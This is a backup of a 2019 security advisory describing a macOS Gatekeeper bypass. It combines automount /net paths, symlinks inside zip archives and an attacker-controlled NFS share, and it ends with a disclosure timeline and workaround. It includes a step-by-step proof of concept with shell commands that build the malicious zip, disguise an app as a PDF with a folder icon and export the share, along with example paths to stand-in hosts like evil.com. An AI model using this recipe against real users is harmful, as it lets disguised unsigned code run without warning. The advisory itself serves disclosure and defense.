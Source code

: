 # macos_gatekeeper_bypass (*article backup)
 bypass Gatekeeper in order to execute untrusted code without any warning or user's explicit permission.
sources: https://www.fcvl.net/vulnerabilities/macosx-gatekeeper-bypass

https://www.sentinelone.com/blog/how-malware-bypass-macos-gatekeeper/

MacOS X GateKeeper Bypass
24 May 2019

OVERVIEW
On MacOS X version <= 10.14.5 (at time of writing) it is possible to easily bypass Gatekeeper in order to execute untrusted code without any warning or user's explicit permission.

Gatekeeper is a mechanism developed by Apple and included in MacOS X since 2012 that enforces code signing and verifies downloaded applications before allowing them to run.
For example, if a user donwloads an application from internet and executes it, Gatekeeper will prevent it from running without user's consens.

DETAILS
As per-design, Gatekeeper considers both external drives and network shares as safe locations and it allows any application they contain to run.
By combining this design with two legitimate features of MacOS X, it will result in the complete deceivement of the intended behaviour.

The first legit feature is automount (aka autofs) that allows a user to automatically mount a network share just by accessing a "special" path, in this case, any path beginning with "/net/".
For example
ls /net/evil-attacker.com/sharedfolder/
will make the os read the content of the 'sharedfolder' on the remote host (evil-attacker.com) using NFS.

The second legit feature is that zip archives can contain symbolic links pointing to an arbitrary location (including automount enpoints) and that the software on MacOS that is responsable to decompress zip files do not perform any check on the symlinks before creatig them.

To better understand how this exploit works, let's consider the following scenario:
An attacker crafts a zip file containing a symbolic link to an automount endpoint she/he controls (ex Documents -> /net/evil.com/Documents) and sends it to the victim.
The victim downloads the malicious archive, extracts it and follows the symlink.

Now the victim is in a location controlled by the attacker but trusted by Gatekeeper, so any attacker-controlled executable can be run without any warning. The way Finder is designed (ex hide .app extensions, hide full path from titlebar) makes this tecnique very effective and hard to spot.

The following video illustrates the concept

https://youtu.be/m74cpadIPZY

PoC
In order to reproduce this issue, follow the steps below:

create a zip file with a symlink to an automount endpoint
mkdir Documents
ln -s /net/linux-vm.local/nfs/Documents Documents/Documents
zip -ry Documents.zip Documents
create an application (.app folder) with the code you want to run
cp -r /Applications/Calculator.app PDF.app
echo -e '#!/bin/bash'"\n"'open /Applications/iTunes.app' > PDF.app/Contents/MacOS/Calculator
chmod +x PDF.app/Contents/MacOS/Calculator
rm PDF.app/Contents/Resources/AppIcon.icns
ln -s /System/Library/CoreServices/CoreTypes.bundle/Contents/Resources/GenericFolderIcon.icns PDF.app/Contents/Resources/AppIcon.icns
create a publicily accessible NFS share and put the .app in it
ssh linux-vm.local
mkdir -p /nfs/Documents
echo '/nfs/Documents *(insecure,rw,no_root_squash,anonuid=1000,anongid=1000,async,nohide)' >> /etc/exports
service nfs-kernel-server restart
scp -r mymac.local:PDF.app /nfs/Documents/
upload the zip somewhere in internet and download it so it gets the quarantine flag used by Gatekeeper
extract the zip (if needed) and navigate it
HISTORY
The vendor has been contacted on February 22th 2019 and it's aware of this issue. This issue was supposed to be addressed, according to the vendor, on May 15th 2019 but Apple started dropping my emails.
Since Apple is aware of my 90 days disclosure deadline, I make this information public.

SOLUTION
No solution is available yet.

A possible workaround is to disable automount:

Edit /etc/auto_master as root
Comment the line beginning with '/net'
Reboot
